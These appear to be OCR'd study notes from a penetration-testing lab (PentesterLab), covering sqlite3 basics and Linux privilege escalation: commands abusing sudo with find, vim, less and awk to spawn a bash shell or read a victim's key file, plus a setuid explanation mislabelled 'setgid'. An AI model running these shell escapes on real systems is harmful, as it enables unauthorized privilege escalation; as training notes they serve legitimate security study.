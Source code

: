 -====================================
159
sqlite3


open a database file
 sqlite3 database.db

 .tables to get a list of tables.
SELECT .... to extract the content of a table using SQL.


=====================================


160 priv escalation with find command
pentesterlab@c4fcbc8fb291:~$ sudo -u victim  /usr/bin/find   /home/victim/key.txt   2>/dev/null -exec /bin/bash     \;




=======================================
161
abuse sudo with vim to get a shell
start vim with sudo and then
:!/bin/bash


==========================================
162
abuse sudo with less to get a shell
from within less do
!/bin/bash


==========================================
163


abuse sudo with awk to get a shell


print any file
awk '{print $1}' /home/victim/key.txt




start a shell
awk 'BEGIN {system("/bin/bash")}'


===========================================


164
setgid bit


ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 54192 Nov 18 2015 /usr/bin/passwd


In this example, the program /usr/bin/passwd is setuid root as it will run as the user root even if it's started by another user. You can see the setuid bit in the output of ls -l with the s in the permissions (instead of x for non-setuid program). Setuid root are always a good target as they often allow privileges escalation.
